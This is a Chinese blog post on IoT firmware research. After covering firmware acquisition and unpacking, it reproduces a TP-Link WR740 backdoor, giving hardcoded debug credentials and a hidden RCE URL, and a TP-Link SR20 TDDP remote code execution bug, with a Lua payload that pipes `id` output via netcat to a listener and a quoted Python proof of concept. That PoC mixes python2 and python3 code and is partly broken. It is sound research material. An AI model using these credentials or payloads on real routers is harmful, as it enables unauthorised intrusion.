# IOT Security Research

A simple blog for IOT Security Research.
<!--more-->

## 前置知识
### 固件的获取
#### 直接从厂商官网或官方服务器下载





#### 使用BP或者UART串口进入设备的shell抓包获取下载地址





#### 使用固件烧写器或者编程器提取ROM中的固件

### 固件的处理
#### 解包
常用工具：binwalk、firmware-mod-kit、binaryanalysis-ng

#### 解密
1. 使用老版本未加密固件中的解密程序实现新版本加密固件的解密

2. 逆向分析低版本固件的解密逻辑实现对新版本固件的解密

## 漏洞复现
### TP-Link WR740 后门漏洞
首先获取固件，固件下载地址：https://github.com/dioos886/TP-LinkWR740

使用binwalk扫一下，可以直接看到Squashfs文件系统，使用-Me参数进行提取



> Tips：如果这里无法提取出文件系统，可能是没有正确安装sasquatch，直接根据Github中的步骤安装即可
> 
> sasquatch下载地址：https://github.com/devttys0/sasquatch.git

解包完成后，可以使用 firmwalker 进行敏感信息扫描

> firmwalker下载地址：https://github.com/craigz28/firmwalker.git
> 
> 使用方法：./firmwalker.sh squashfs-root的路径




多次出现httpd的字样，因此猜测是httpd起的服务

接下来逆向分析一下/usr/bin/httpd这个文件

通过搜索passwd跟踪到以下DebugResultRpmHtm这个函数，可以得到 用户名：osteam 密码：5up


再往上可以找到另外两个函数ArtRpmHtm和CmdRpmHtm


然后我们对固件进行模拟，我这里使用的是AttifyOS3.0中的 firmware-analysis-toolkit



模拟成功后我们直接访问 192.168.1.1 即可



使用默认密码 admin admin 登录



登录成功后直接访问 192.168.1.1/userRpmNatDebugRpm26525557/linux_cmdline.html

然后输入我们之前逆向得到的用户名密码：osteam 5up 即可实现 RCE



### TP-Link SR20 本地网络远程代码执行漏洞

固件下载链接：https://www.tp-link.com/us/support/download/sr20/#Firmware

选择 `SR20(US)_V1_180518` 下载，然后解压，直接使用 binwalk 提取固件即可

搭建 arm qemu 虚拟机环境

搭建环境前需要先获取以下三个文件，并置于统一目录中，下载链接：https://people.debian.org/~aurel32/qemu/armhf/

```bash
debian_wheezy_armhf_standard.qcow2 # qemu虚拟机的硬盘镜像文件，包含完整的 Debian Wheezy 操作系统（ARM 架构）
initrd.img-3.2.0-4-vexpress # 初始 RAM 文件系统镜像，用于在内核加载时提供临时文件系统和驱动
vmlinuz-3.2.0-4-vexpress # 压缩的 Linux 内核镜像文件，控制系统硬件和资源管理
```

```bash
sudo tunctl -t tap0 -u `whoami`  
# 为了与 QEMU 虚拟机通信，添加一个虚拟网卡，如果显示已经分配给一个用户，要先用以下命令启用
# sudo ip link set tap0 up

# 为添加的虚拟网卡配置 IP 地址
sudo ifconfig tap0 10.10.10.1/24 
# 根据配置启动虚拟机
qemu-system-arm \
    -M vexpress-a9 \                             # 使用 ARM 虚拟平台 vexpress-a9
    -kernel vmlinuz-3.2.0-4-vexpress \           # 指定内核镜像文件
    -initrd initrd.img-3.2.0-4-vexpress \        # 指定 initrd 初始 RAM 文件系统
    -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \  # 将 debian 磁盘镜像作为 SD 卡
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \ # 内核启动参数：设置根分区及控制台
    -net nic \                                   # 启用虚拟网络接口
    -net tap,ifname=tap0,script=no,downscript=no \ # 使用 tap0 进行网络桥接
    -nographic                                    # 不启动图形界面，重定向到终端
```

虚拟机成功运行后，使用 root root 默认密码登录系统，然后使用以下命令配置网卡，建立与宿主机的通讯
```bash
ifconfig eth0 10.10.10.2/24
```


建立好通讯后，用以下命令把固件中的文件系统传入虚拟机中并解压
```
tar -cjpf squashfs-root.tar.bz2 squashfs-root/
python -m http.server
wget http://10.10.10.1:8000/squashfs-root.tar.bz2
tar -xjpf squashfs-root.tar.bz2
```

然后需要在宿主机中安装TFTP服务
```bash
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false`

修改 `/srv/tftp` 为 `/tftpboot`

修改完成后用以下命令启动并查看aftpd服务
```bash
sudo systemctl start atftp
sudo systemctl status atftp
# 如果出现 atftpd: can't bind port :69/udp 报错
# 需要先用以下命令停用 inetutils-inetd 服务，然后再restart
sudo systemctl stop inetutils-inetd.service
```

下图是启动成功的界面


之后是漏洞复现的步骤
现在宿主机的`/tftpboot` 目录下创建下面两个文件

文件一：payload
```bash
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```
文件二：poc.py
```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

然后虚拟机运行tddp，宿主机开启监听并运行poc.py即可成功复现


但是我这里虚拟机中tddp的动态链接库有点问题，暂时卡在这里了


参考链接：https://paper.seebug.org/879/

---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/848cf69/  

